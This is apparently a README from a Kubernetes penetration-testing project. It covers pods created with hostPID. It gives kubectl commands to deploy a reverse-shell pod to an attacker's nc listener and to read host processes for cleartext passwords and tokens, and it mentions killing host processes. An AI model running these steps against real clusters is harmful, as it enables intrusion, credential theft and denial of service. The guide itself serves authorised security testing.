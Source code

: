 # Bad Pod #5: hostPID 

There’s no clear path to get root on the node with only `hostPID`, but there are still some good post exploitation opportunities.  
*	**View processes on the host** – When you run ps from within a pod that has hostPID: true, you see all the processes running on the host, including processes running within each pod. 
*	**Look for passwords, tokens, keys, etc.** – If you are lucky, you will find credentials and you’ll be able to use them to escalate privileges within the cluster, to services supported by the cluster, or to services that cluster-hosted applications are communicating with. It is a long shot, but you might find a Kubernetes service account token or some other authentication material that will allow you to access other namespaces and eventually escalate all the way up to cluster admin. 
*	**Kill processes** – You can also kill any process on the node (presenting a denial-of-service risk), but I would advise against it on a penetration test!


# Pod Creation
## Create a pod you can exec into
Create pod
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostpid/pod/hostpid-exec-pod.yaml 
```
Exec into pod 
```bash
kubectl exec -it hostpid-exec-pod -- bash
```

## Reverse shell pod

Set up listener
```bash
nc -nvlp 3116
```

Create pod from local manifest without modifying it by using env variables and envsubst
```bash
HOST="10.0.0.1" PORT="3116" envsubst < ./manifests/everything-allowed/pod/hostpid/pod/hostpid-revshell-pod.yaml | kubectl apply -f -
```

Catch the shell
```bash
$ nc -nvlp 3116
Listening on 0.0.0.0 3116
Connection received on 10.0.0.162 42035
```

# Post exploitation

#### View all processes running on the host and look for passwords, tokens, keys, etc. 
```bash
ps -aux
...omitted for brevity...
root     2123072  0.0  0.0   3732  2868 ?        Ss   21:00   0:00 /bin/bash -c while true; do ./my-program --grafana-uername=admin --grafana-password=admin; sleep 10;done
...omitted for brevity...
```
Check out that clear text password in the ps output below! 

#### Also, you can also kill any process, but don't do that in production :)

#### Attacks that apply to all pods, even without any special permissions
* Cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster

# Demonstrate Impact

If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the penetration test.

